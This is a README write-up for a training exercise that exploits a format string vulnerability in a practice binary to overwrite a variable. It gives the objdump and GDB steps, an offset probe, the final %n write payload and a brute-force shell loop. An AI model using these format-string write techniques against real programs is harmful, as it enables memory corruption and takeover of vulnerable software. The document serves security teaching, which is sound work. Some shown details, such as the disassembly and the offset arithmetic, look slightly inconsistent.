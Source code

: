 # ex08 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to modify the `target` variable and see the message "you have modified the target :)".

## Steps

### 1. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh

objdump -t bin | grep target
```

This command provides the address of the `target` variable:

```plaintext

080496f4 g     O .bss   00000004              target
```

The address of the `target` variable is `0x080496f4`.

### 2. Analyze the Binary with GDB

We then use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh

gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
`break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh

disassemble vuln
```

Output:

```plaintext

Dump of assembler code for function vuln:
   0x08048470 <+0>:     push   %ebp
   0x08048471 <+1>:     mov    %esp,%ebp
   0x08048473 <+3>:     and    $0xfffffff0,%esp
   0x08048476 <+6>:     sub    $0x10,%esp
   0x08048479 <+9>:     call   0x804847d <vuln+13>
   0x0804847e <+14>:    leave
   0x0804847f <+15>:    ret
End of assembler dump.
```

### 3. Finding the Correct Offset

To find the correct offset for the format string vulnerability, we tested the binary with different format string inputs:

```sh

python -c "print('AAAA ' + ' %08x' * 20)" | ./bin
```

Output:

```plaintext

AAAA  b7765500 bfa05354 b7745000 00000000 00000000 bfa05318 0804849d bfa05110 00000200 b7745c20 b7761328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830
target is 00000000 :(
```

From the output, we observed `41414141` at the 11th position, indicating our offset is 11.

### 4. Crafting the Payload

Based on the identified offset, we needed to craft a payload to overwrite the `target` variable. Through a process of trial and error, we tried various payloads to find the correct value to write to the `target` variable. Initially, we tried smaller values and gradually increased them. This systematic approach helped us to avoid overflows and segmentation faults.

Here is the final payload that successfully modified the `target` variable:

```sh

python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%16930052x' + '%n'" | ./bin
```

Output:

```plaintext

b7772328
you have modified the target :)
```

### Trial and Error Process

1. **Initial Attempts**: We started with small values for the padding, such as:

```sh
    python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%100x' + '%n'" | ./bin
```

2. **Incremental Increases**: Gradually increased the padding value to see how it affected the `target` variable. We used a loop to automate this process:

```sh

    for i in $(seq 100000 100000 20000000); do
      payload=$(python3 -c "print('\xf4\x96\x04\x08' + '%x'*10 + '%${i}x' + '%11\$n')");
      output=$(echo -e "$payload" | ./bin);
      echo "Trying $i";
      if echo "$output" | grep -q "you have modified the target"; then
        echo "Success! Payload: $payload";
        break;
      fi
    done
```
![Succsess Flag](./images/image.png)


3. **Final Value**: After several iterations, we found that the correct value to print `16930052` characters was effective in modifying the `target` variable.

### Conclusion

By carefully analyzing the binary and using a systematic trial and error approach, we were able to exploit the format string vulnerability and modify the `target` variable. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

### Challenges and Learnings

- **Challenge**: Identifying the correct offset for the format string.
- **Solution**: Systematically testing different offsets and payloads.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to modify memory.

By following these steps and understanding the exploitation process, we successfully completed the level.
